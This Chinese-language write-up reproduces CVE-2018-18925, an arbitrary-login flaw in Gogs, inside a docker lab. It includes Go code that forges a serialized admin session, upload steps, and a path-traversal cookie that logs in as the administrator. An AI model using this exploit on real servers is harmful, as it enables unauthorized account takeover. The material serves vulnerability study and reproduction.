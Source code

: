 （CVE-2018-18925）Gogs 任意用户登录漏洞
=======================================

一、漏洞简介
------------

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

二、漏洞影响
------------

Gogs \< 0.11.66

三、复现过程
------------

执行如下命令启动gogs：

    docker-compose up -d

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

漏洞利用
--------

使用Gob序列化生成session文件：

    package main

    import (
        "bytes"
        "encoding/gob"
        "encoding/hex"
        "fmt"
        "io/ioutil"
        "os"
    )

    func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
        for _, v := range obj {
            gob.Register(v)
        }
        buf := bytes.NewBuffer(nil)
        err := gob.NewEncoder(buf).Encode(obj)
        return buf.Bytes(), err
    }

    func main() {
        var uid int64 = 1
        obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
        data, err := EncodeGob(obj)
        if err != nil {
            fmt.Println(err)
        }
        err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
        if err != nil {
            fmt.Println(err)
        }
        edata := hex.EncodeToString(data)
        fmt.Println(edata)
    }

然后注册一个普通用户账户，创建项目，并在"版本发布"页面上传刚生成的session文件：

![1.png](./.resource/(CVE-2018-18925)Gogs任意用户登录漏洞/media/rId25.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

![2.png](./.resource/(CVE-2018-18925)Gogs任意用户登录漏洞/media/rId26.png)

完整的利用过程与原理，可以阅读参考链接中的文章。

参考链接
--------

> https://vulhub.org/\#/environments/gogs/CVE-2018-18925/
